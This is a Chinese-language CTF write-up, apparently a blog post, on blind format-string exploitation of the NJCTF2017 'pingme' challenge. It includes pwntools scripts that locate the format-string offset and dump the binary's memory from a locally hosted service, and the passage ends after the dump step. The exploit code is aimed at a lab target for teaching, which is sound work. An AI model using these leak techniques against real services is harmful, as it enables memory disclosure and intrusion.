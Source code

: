 盲打 0xc
======

一、NJCTF2017_pingme0-- 格式化字符串盲打
------------------------------

1. 搭建题目：socat tcp-listen:10001,fork exec:./pingme,reuseaddr &

2. 题目不给文件，只有地址和端口，可能是 BROP 也可能是格式化字符串盲打。连接上先尝试格式化字符串盲打，输入多个 %p.%p.%p，可以看到泄露出了数据，那么就应该是格式化字符串盲打。

![](https://bbs.pediy.com/upload/attach/202108/904686_HWZBQ69GFEBA4UQ.jpg)

3. 首先利用爆破找到我们输入的参数偏移：

```
#注释头
 
from pwn import*
io = remote("127.0.0.1",10001)
#io = process("./pingme")
 
def exec_fmt(payload):
    io.sendline(payload)
    info = p.recv()
    return info
 
auto = FmtStr(exec_fmt)
offset = auto.offset

```

![](https://bbs.pediy.com/upload/attach/202108/904686_2HU5QUPA7MT29YA.jpg)

偏移为 7，验证一下：

![](https://bbs.pediy.com/upload/attach/202108/904686_3VFNDBWBE6XVDXU.jpg)

4. 利用格式化字符串漏洞将二进制文件 dump 下来：

```
#注释头
 
from pwn import*
 
def dump_memory(start_addr,end_addr):
    result = ""
    while start_addr < end_addr:
        io = remote('127.0.0.1',10001)
        io.recvline()
        payload = "%9$s.AAA" + p32(start_addr)
        io.sendline(payload)
        data = io.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s"%(start_addr,data.encode('hex')))
        result += data
        start_addr += len(data)
        io.close()
    return result
start_addr = 0x8048000
end_addr = 0x8049000
code_bin = dump_memory(start_addr,end_addr)
with open("code.bin","wb") as f:
    f.write(code_bin)
    f.close()

```
